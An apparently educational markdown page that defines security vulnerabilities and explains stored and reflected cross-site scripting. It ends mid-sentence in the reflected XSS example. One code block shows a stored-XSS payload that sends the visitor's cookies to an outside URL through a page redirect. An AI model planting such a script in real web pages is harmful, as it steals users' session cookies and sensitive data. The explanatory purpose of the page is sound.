  # Security Vulnerability 
 
 A Security Vulnerability is a weakness, flaw, or error found within a security system that has the potential to be leveraged by a threat agent in order to compromise a secure network.

 There are a number of Security Vulnerabilities. 
 some common examples are as follows: 

 - Broken Authentication
 - SQL Injection
 - Cross-Site Scripting
 - Cross-Site Request Forgery

 ## Cross-Site Scripting (XSS)
 XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

 An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page

 
 ### Types
#### Persistent (Stored) XSS:
    - Persistent XSS attacks are Type 2 XSS attacks because the attack is carried out via two requests:

    - Injecting malicious code and storing it on the web server.
    Loading the stored code and embedding it into the HTML pages that contain the payload.

Example
```
<script> window.location = ‘https://example.com/?user_data=’ + document.cookies; </script>
```
User can add this custom script into comments section. 

When the social network loads this comment, it will include the `script` tag into its HTML. This will automatically redirect the current user to the URL of the malicious website and will send all of the cookies as a query parameter.

#### Reflected XSS
Reflected XSS attacks occur when the data, which is sent from the browser to the server is contained in the servers’ response.

Example:

Suppose that a web app has search functionality. This is how the web app works:

- The user types a search term into an input field.
- The web app redirects the user to a “results” page which has the search term as a query parameter.
- The search term is taken from the query parameter and is being sent to the server for processing.
- When the processing is complete, the response is rendered on the page. The response contains both the search term of the user and the matched results from the server.
- If the user types in “javascript” into the input field, a redirect will happen to the following page:
